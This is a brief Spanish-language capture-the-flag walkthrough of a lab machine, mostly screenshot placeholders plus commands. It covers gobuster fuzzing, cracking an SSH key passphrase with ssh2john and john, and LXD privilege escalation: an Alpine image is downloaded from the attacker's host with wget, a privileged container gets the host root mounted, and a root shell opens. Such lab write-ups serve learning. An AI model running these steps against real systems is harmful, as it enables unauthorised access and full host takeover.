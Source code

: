 # NMAP

![alt text](image.png)

# WEB

![alt text](image-1.png)

Posible usuario

![alt text](image-2.png)

# Fuzzing

    gobuster dir -u http://10.10.74.161/ -w /usr/share/wordlists/dirb/common.txt

![alt text](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

    ssh2john secretKey > pass.hash  

![alt text](image-8.png)    

    john pass.hash

![alt text](image-9.png)

    chmod 600 secretKey

# SSH

![alt text](image-10.png)

# User Flag

![alt text](image-11.png)

# Escalada de Privilegios

Descargamos (build-alpine)[https://github.com/saghul/lxd-alpine-builder/blob/master/build-alpine]

    sudo bash build-alpine

Obtenemos un `alpine-v3.13-x86_64-20210218_0139.tar.gz`. Iniciamos un servidor en python `sudo python3 -m http.server` y pasamos el archivo

    wget 10.8.67.209:8001/alpine-v3.13-x86_64-20210218_0139.tar.gz

![alt text](image-12.png)

    lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage

    lxc image list

    lxc init alpine privesc -c security.privileged=true
    
![alt text](image-13.png)

    lxc list

    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

    lxc start privesc

    lxc exec privesc /bin/sh

![alt text](image-14.png)

# Root Flag

    find / -type f -name "root.txt" 2>/dev/null

![alt text](image-15.png)